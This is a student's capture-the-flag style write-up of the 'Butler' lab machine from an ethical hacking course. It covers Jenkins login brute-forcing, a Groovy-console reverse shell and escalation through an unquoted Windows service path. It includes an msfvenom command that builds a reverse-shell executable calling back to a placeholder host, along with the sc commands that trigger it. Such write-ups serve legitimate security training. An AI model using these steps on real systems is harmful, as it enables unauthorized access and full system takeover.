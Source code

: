 # 4th Capstone Machine
This is my write-up for the fourth machine in the capstone section of the Practical Ethical Hacking course.

## Machine Information
- **Name**: Butler
- **Difficulty**: Easy
- **OS**: Windows 10
  
## Tools Used
- nmap: For port scanning and service enumeration.
- Burp Suite: For modifying requests and brute forcing logins.
- netcat: To create port listeners.
- winPEAS: To search for possible local privilege escalation paths.
- MSFvenom: To create a rever shell payload.

## Objectives
- Enumerate the system and identify services.
- Discover vulnerabilities within the system.
- Exploit the vulnerabilities to gain user access.
- Escalate privileges to root.
  
## Enumeration
1. Nmap scan:
  
    - The first step was to enumerate open ports and services using nmap:
    
        `nmap -A -vv -p- <target IP>`
    
    - Open Ports:
      
      - 8080/tcp (HTTP) - Jetty server
     
      - Other port found non-critical (pando-pub)
  
2. Port 8080 HTTP Enumeration:

    - Connected to web server on port 8080.
  
    - Jenkins login page.     
     
## Vulnerability Discovery
1. Brute Forcing Login:
   
     - Add credentials to Intruder in Burp Suite
  
     - Ran intruder and found the request that had a different length response. This was the correct credentials to login.
  
     - After looking through the webapp, I found a console that runs an arbitrary groovy script on the server.
    
## Exploitation
  - Researched vulnerabilities for Groovy but found a reverse shell instead.

  - Set up a netcat listener and ran the Groovy reverse shell on the console.

  - Caught a shell as the user butler.   
  
## Privilege Escalation
   - Ran winpeas to look for potential privesc paths.

   - Discovered an unquoted service executable path that is ran by the system named WiseBootAssistant.

         `C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe`

   - Created a reverse shell to place in the middle of the path of the executable using MSFvenom:

         `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<host IP> LPORT=7777 -f exe > Wise.exe`
     
   - Started a netcat listener and placed the reverse shell in C:\Program Files (x86)\Wise.

   - Started and stopped the service

         `sc stop WiseBootAssistant`

         `sc start WiseBootAssistant`
     
   - Netcat caught a shell as nt authority\system
    
## Lessons Learned
This machine reinforced the importance of systematically enumerating exposed services and leveraging tools like Burp Suite and winPEAS to identify and exploit both login flaws and privilege escalation paths.
Using the Groovy script console and exploiting an unquoted service path deepened my understanding of how misconfigurations can provide significant entry points, especially in Windows environments.
Overall, this exercise highlighted the value of combining automated tools with manual investigation to comprehensively assess security risks.

